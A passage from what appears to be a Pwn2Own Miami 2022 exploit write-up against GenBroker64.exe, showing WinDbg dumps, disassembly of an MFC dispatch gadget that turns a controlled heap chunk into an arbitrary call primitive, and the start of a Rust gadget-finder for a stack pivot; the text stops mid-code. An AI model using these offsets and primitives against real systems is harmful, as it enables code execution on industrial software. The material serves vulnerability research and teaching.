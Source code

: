 Okay, the first instruction reads the first QWORD in the heap chunk which we'll set to `0x1400aed08`. The second instruction reads the QWORD at `0x1400aed08+0x10`, which points to a function in `mfc140u!CRuntimeClass::CreateObject`:
```text
0:011> dqs 0x1400aed08+10
00000001`400aed18  00007ffb`2137ffe0 mfc140u!CRuntimeClass::CreateObject [D:\a01\_work\6\s\src\vctools\VC7Libs\Ship\ATLMFC\Src\MFC\objcore.cpp @ 127]
```

Execution is transferred to `0x7ffb2137ffe0` / `mfc140u!CRuntimeClass::CreateObject`, which does the following:
```text
0:011> u 00007ffb2137ffe0
00007ffb2137ffe0   sub     rsp,38h
00007ffb2137ffe4   test    rcx,rcx
00007ffb2137ffe7   je 00007ffb'21380015          ; @rcx is never going to be zero, so we won't take this jump
00007ffb2137ffe9   cmp     qword ptr [rcx+10h],0 ; @rcx+0x10 is populated with data from our future ROP chain
00007ffb2137ffee   jne 00007ffb'2137fff4         ; so it will never be zero meaning we'll take this jump always
...
00007ffb2137fff4   and     qword ptr [rsp+40h],0
00007ffb2137fffa   mov     rax,qword ptr [rcx+10h]
00007ffb2137fffe   call    qword ptr [mfc140u!__guard_dispatch_icall_fptr (00007ffb`21415b60)]

0:011> u poi(00007ffb`21415b60)
mfc140u!_guard_dispatch_icall_nop [D:\a01\_work\6\s\src\vctools\crt\vcstartup\src\misc\amd64\guard_dispatch.asm @ 53]:
00007ffb`21407190 ffe0            jmp     rax
``` 

Okay, so this is .. amazing ✊🏽. It reads at offset `0x10` off our chunk, and assuming it isn't zero it will redirect execution there. If we set-up the reclaimed chunk to have the first QWORD be `0x1400aed08`, and the one at offset `0x10` to `0xdeadbeefbaadc0de`, then execution is redirected to `0xdeadbeefbaadc0de`. This precisely boosts the constrained call primitive into an arbitrary call primitive. This is solid progress, and it filled me with hope.

With an arbitrary call primitive in hands, we need to find a way to kick-start a ROP chain. Usually, the easiest way to do that is to pivot the stack to an area you control. Chaining the gadgets is as easy as returning to the next one in line. Unfortunately, finding this pivot was also pretty annoying. `GenBroker64.exe` is fairly small in size and doesn't offer many super valuable gadgets. Another wall.

I decided to try to find the pivot gadget with my tool. Like in the previous example, I injected the candidate address at the right place, looked for a stack pivoted inside the heap chunk we have control over, and a tainted RIP:
```rust
impl Finder for Pwn2OwnMiami2022_2 {
    fn pre(&mut self, emu: &mut Emu, candidate: u64) -> Result<()> {
        // Here, we continue where we left off after the gadget found in |miami1|,
        // where we went from constrained arbitrary call, to unconstrained arbitrary
        // call. At this point, we want to pivot the stack to our heap chunk.
        //
        // ```
        // (1de8.1f6c): Access violation - code c0000005 (first/second chance not available)
        // For analysis of this file, run !analyze -v
        // mfc140u!_guard_dispatch_icall_nop:
        // 00007ffd`57427190 ffe0            jmp     rax {deadbeef`baadc0de}
        //
        // 0:011> dqs @rcx
        // 00000000`1970bf00  00000001`400aed08 GenBroker64+0xaed08
        // 00000000`1970bf08  bbbbbbbb`bbbbbbbb
        // 00000000`1970bf10  deadbeef`baadc0de <-- this is where @rax comes from
        // 00000000`1970bf18  61616161`61616161
        // ```
```